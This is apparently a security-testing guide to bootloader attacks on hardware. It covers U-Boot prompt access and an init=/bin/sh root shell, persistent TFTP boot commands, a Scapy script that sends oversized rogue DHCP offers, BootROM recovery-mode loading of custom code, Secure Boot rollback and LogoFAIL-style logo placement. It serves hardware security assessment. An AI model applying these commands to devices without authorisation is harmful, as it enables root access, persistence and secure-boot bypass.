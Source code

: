 # Bootloader Testing

The following steps are recommended for modifying device startup configurations and testing bootloaders such as U-Boot and UEFI-class loaders. Focus on getting early code execution, assessing signature/rollback protections, and abusing recovery or network-boot paths.

## U-Boot quick wins and environment abuse

1. Access the interpreter shell
   - During boot, hit a known break key (often any key, 0, space, or a board-specific "magic" sequence) before `bootcmd` executes to drop to the U-Boot prompt.

2. Inspect boot state and variables
   - Useful commands:
     - `printenv` (dump environment)
     - `bdinfo` (board info, memory addresses)
     - `help bootm; help booti; help bootz` (supported kernel boot methods)
     - `help ext4load; help fatload; help tftpboot` (available loaders)

3. Modify boot arguments to get a root shell
   - Append `init=/bin/sh` so the kernel drops to a shell instead of normal init:
     ```
     # printenv
     # setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
     # saveenv
     # boot    # or: run bootcmd
     ```

4. Netboot from your TFTP server
   - Configure network and fetch a kernel/fit image from LAN:
     ```
     # setenv ipaddr 192.168.2.2      # device IP
     # setenv serverip 192.168.2.1    # TFTP server IP
     # saveenv; reset
     # ping ${serverip}
     # tftpboot ${loadaddr} zImage           # kernel
     # tftpboot ${fdt_addr_r} devicetree.dtb # DTB
     # setenv bootargs "${bootargs} init=/bin/sh"
     # booti ${loadaddr} - ${fdt_addr_r}
     ```

5. Persist changes via environment
   - If env storage isn’t write-protected, you can persist control:
     ```
     # setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
     # saveenv
     ```
   - Check for variables like `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` that influence fallback paths. Misconfigured values can grant repeated breaks into the shell.

6. Check debug/unsafe features
   - Look for: `bootdelay` > 0, `autoboot` disabled, unrestricted `usb start; fatload usb 0:1 ...`, ability to `loady`/`loads` via serial, `env import` from untrusted media, and kernels/ramdisks loaded without signature checks.

7. U-Boot image/verification testing
   - If the platform claims secure/verified boot with FIT images, try both unsigned and tampered images:
     ```
     # tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
     # tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
     # tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
     ```
   - Absence of `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` or legacy `verify=n` behavior often allows booting arbitrary payloads.

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP parameter fuzzing
   - U-Boot’s legacy BOOTP/DHCP handling has had memory-safety issues. For example, CVE‑2024‑42040 describes memory disclosure via crafted DHCP responses that can leak bytes from U-Boot memory back on the wire. Exercise the DHCP/PXE code paths with overly long/edge-case values (option 67 bootfile-name, vendor options, file/servername fields) and observe for hangs/leaks.
   - Minimal Scapy snippet to stress boot parameters during netboot:
     ```python
     from scapy.all import *
     offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
              IP(src='192.168.2.1', dst='255.255.255.255')/
              UDP(sport=67, dport=68)/
              BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
              DHCP(options=[('message-type','offer'),
                            ('server_id','192.168.2.1'),
                            # Intentionally oversized and strange values
                            ('bootfile_name','A'*300),
                            ('vendor_class_id','B'*240),
                            'end']))
     sendp(offer, iface='eth0', loop=1, inter=0.2)
     ```
   - Also validate if PXE filename fields are passed to shell/loader logic without sanitization when chained to OS-side provisioning scripts.

9. Rogue DHCP server command injection testing
   - Set up a rogue DHCP/PXE service and try injecting characters into filename or options fields to reach command interpreters in later stages of the boot chain. Metasploit’s DHCP auxiliary, `dnsmasq`, or custom Scapy scripts work well. Ensure you isolate the lab network first.

## SoC ROM recovery modes that override normal boot

Many SoCs expose a BootROM "loader" mode that will accept code over USB/UART even when flash images are invalid. If secure-boot fuses aren’t blown, this can provide arbitrary code execution very early in the chain.

- NXP i.MX (Serial Download Mode)
  - Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
  - Example: `imx-usb-loader u-boot.imx` to push and run a custom U-Boot from RAM.
- Allwinner (FEL)
  - Tool: `sunxi-fel`.
  - Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` or `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
  - Tool: `rkdeveloptool`.
  - Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` to stage a loader and upload a custom U-Boot.

Assess whether the device has secure-boot eFuses/OTP burned. If not, BootROM download modes frequently bypass any higher-level verification (U-Boot, kernel, rootfs) by executing your first-stage payload directly from SRAM/DRAM.

## UEFI/PC-class bootloaders: quick checks

10. ESP tampering and rollback testing
   - Mount the EFI System Partition (ESP) and check for loader components: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo paths.
   - Try booting with downgraded or known-vulnerable signed boot components if Secure Boot revocations (dbx) aren’t current. If the platform still trusts old shims/bootmanagers, you can often load your own kernel or `grub.cfg` from the ESP to gain persistence.

11. Boot logo parsing bugs (LogoFAIL class)
   - Several OEM/IBV firmwares were vulnerable to image-parsing flaws in DXE that process boot logos. If an attacker can place a crafted image on the ESP under a vendor-specific path (e.g., `\EFI\<vendor>\logo\*.bmp`) and reboot, code execution during early boot may be possible even with Secure Boot enabled. Test whether the platform accepts user-supplied logos and whether those paths are writable from the OS.

## Hardware caution

Be cautious when interacting with SPI/NAND flash during early boot (e.g., grounding pins to bypass reads) and always consult the flash datasheet. Mistimed shorts can corrupt the device or the programmer.

## Notes and additional tips

- Try `env export -t ${loadaddr}` and `env import -t ${loadaddr}` to move environment blobs between RAM and storage; some platforms allow importing env from removable media without authentication.
- For persistence on Linux-based systems that boot via `extlinux.conf`, modifying the `APPEND` line (to inject `init=/bin/sh` or `rd.break`) on the boot partition is often enough when no signature checks are enforced.
- If userland provides `fw_printenv/fw_setenv`, validate that `/etc/fw_env.config` matches the real env storage. Misconfigured offsets let you read/write the wrong MTD region.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

